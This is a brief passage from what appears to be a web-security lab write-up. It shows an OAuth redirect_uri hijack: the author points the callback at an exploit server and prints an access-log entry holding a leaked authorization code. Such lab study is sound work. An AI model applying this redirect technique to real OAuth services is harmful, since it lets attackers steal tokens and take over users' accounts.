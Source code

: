 ![picture 13](/assets/images/050e20230a5c8bc06fba2548e2c18f66de8a69158ad0d1ececc17d20c23b86d7.png)  

If i log out and change the `redirect_uri` with the one with `exploit-...` then the WebApp will redirect me there and i'll leak the token

![picture 14](/assets/images/3d62ad6b6ff0e675ed008d93138620bec297ac7be533a36be7f45c8d7c43838f.png)  

Check the Access Logs

```
87.181.171.142  2023-03-10 18:05:22 +0000 "GET /oauth-callback?code=lH6JjG4-zM9WU7H71rnTcoO21Y_jDGE-PYHIwHEDDB2 HTTP/1.1" 404 "user-agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/108.0.0.0 Safari/537.36"
```
